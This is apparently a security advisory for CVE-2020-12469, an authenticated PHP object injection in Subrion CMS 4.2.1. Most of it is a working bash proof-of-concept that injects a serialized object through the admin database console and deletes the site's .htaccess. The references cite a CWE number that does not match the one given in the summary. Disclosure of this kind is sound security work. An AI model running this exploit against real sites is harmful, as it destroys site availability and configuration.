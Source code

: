 # Subpages - PHP Object Injection

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is the file `/admin/blocks.php`. The manipulation of the of the **subpages** value within a block leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was presented 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12469. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=10
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/database/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a -u)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "$cookies" --data-binary "__st=$csrf_token&query=UPDATE++%60subr_blocks%60+SET+%60subpages%60++%3D+%27$payload;%27+WHERE+%60id%60+%3D+$id%3B+&show_query=1&exec_query=Go" "$target/panel/database/")

if [[ $(echo $res | grep "Query OK:" | grep "rows affected") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get block ID to trigger
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" &>/dev/null)

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of .htaccess within Subrion HOME direcotry.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)